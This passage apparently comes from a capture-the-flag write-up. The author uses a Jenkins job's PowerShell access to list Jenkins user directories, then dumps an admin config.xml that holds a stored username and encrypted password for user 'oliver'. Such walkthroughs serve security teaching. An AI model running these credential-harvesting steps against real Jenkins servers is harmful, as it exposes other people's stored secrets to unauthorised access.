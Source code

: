 The user information is stored in `/users/`:

```
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\0xdf's job>powershell -c ls ..\..\users\ 

    Directory: C:\Users\oliver\AppData\Local\Jenkins\.jenkins\users

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/27/2022  10:30 AM                0xdf_4936803374376763548
d-----       10/21/2021   2:22 AM                admin_17207690984073220035
-a----        2/26/2022   1:59 PM            402 users.xml
```

In that admin directory, there’s a `config.xml`:

```
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\0xdf's job>powershell -c ls ..\..\users\admin_17207690984073220035 

    Directory: C:\Users\oliver\AppData\Local\Jenkins\.jenkins\users\admin_17207690984073220035

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       10/21/2021   2:22 AM           3186 config.xml 
```

I’ll dump that file and save it to my local workstation:

```
<?xml version='1.1' encoding='UTF-8'?>
<user>
  <version>10</version>
  <id>admin</id>
  <fullName>admin</fullName>
  <properties>
    <com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty plugin="credentials@2.6.1">
      <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash">
        <entry>
          <com.cloudbees.plugins.credentials.domains.Domain>
            <specifications/>
          </com.cloudbees.plugins.credentials.domains.Domain>
          <java.util.concurrent.CopyOnWriteArrayList>
            <com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
              <id>320a60b9-1e5c-4399-8afe-44466c9cde9e</id>
              <description></description>
              <username>oliver</username>
              <password>{AQAAABAAAAAQqU+m+mC6ZnLa0+yaanj2eBSbTk+h4P5omjKdwV17vcA=}</password>
              <usernameSecret>false</usernameSecret>
            </com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
          </java.util.concurrent.CopyOnWriteArrayList>
        </entry>
      </domainCredentialsMap>
    </com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty>
    <hudson.plugins.emailext.watching.EmailExtWatchAction_-UserProperty plugin="email-ext@2.84">
      <triggers/>
    </hudson.plugins.emailext.watching.EmailExtWatchAction_-UserProperty>
    <hudson.model.MyViewsProperty>
      <views>
        <hudson.model.AllView>
          <owner class="hudson.model.MyViewsProperty" reference="../../.."/>
          <name>all</name>
          <filterExecutors>false</filterExecutors>
          <filterQueue>false</filterQueue>
```